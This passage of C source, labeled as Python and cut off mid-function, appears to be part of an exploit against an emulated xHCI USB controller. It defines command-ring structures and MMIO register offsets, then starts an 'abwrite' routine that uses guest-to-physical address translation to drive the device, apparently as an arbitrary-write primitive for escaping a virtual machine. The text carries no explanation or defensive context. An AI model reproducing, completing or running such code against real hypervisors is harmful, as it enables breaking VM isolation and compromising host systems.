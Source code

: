 ```python {hide=true}
    uint32_t    resvd4  : 16;
} XHCI_TRB_G;

typedef union sXHCI_COMMAND_TRB {
    XHCI_TRB_ADR    adr;
    XHCI_TRB_G      gen;
} XHCI_COMMAND_TRB;

/** @def RT_BIT
 * Convert a bit number into an integer bitmask (unsigned).
 * @param   bit     The bit number.
 */
#define RT_BIT(bit)                             ( 1U << (bit) )

/** @name Command Ring Control Register (CRCR) bits
 * @{ */
#define XHCI_CRCR_RCS           RT_BIT(0)   /**< RW   - Ring Cycle State */
/** @} */

/** @name Command Register (USBCMD) bits
 * @{ */
#define XHCI_CMD_RS             RT_BIT(0)   /**< RW - Run/Stop */
/** @} */

/** Size of the capability part of the MMIO region.  */
#define XHCI_CAPS_REG_SIZE          0x80

/** Offset of the doorbell registers in MMIO region.  */
#define XHCI_DOORBELL_OFFSET        0x3000

volatile uint8_t *data_mem = NULL;
volatile uint8_t *xhci_mmio_mem = NULL;
#define XHCI_MMIO_ADDR 0xcafe000

#define PhysWrite           1
#define PhysRead            0

#define offOpRegs(iReg)     ((iReg << 2) + XHCI_CAPS_REG_SIZE)
#define USBCMD              offOpRegs(0)
#define CRCRL               offOpRegs(6)
#define CRCRH               offOpRegs(7)

typedef struct content {
    uint64_t addr;
    uint32_t off;
    uint32_t len: 31;
    uint32_t flag: 1;
} content_t;

void abwrite(uint8_t *buf, uint32_t off, uint32_t len) {
    XHCI_COMMAND_TRB *cmd = (XHCI_COMMAND_TRB *)data_mem;
    content_t *content = (content_t *)(data_mem + 0x100);

    uint64_t cmd_pa = 0;
    uint64_t content_pa = 0;
    uint32_t res = 0;

    memset(content, 0, sizeof(content_t));
    content->addr = gva_to_gpa(buf);
    content->off = off;
    content->len = len;
    content->flag = PhysRead;
    content_pa = gva_to_gpa(content);
```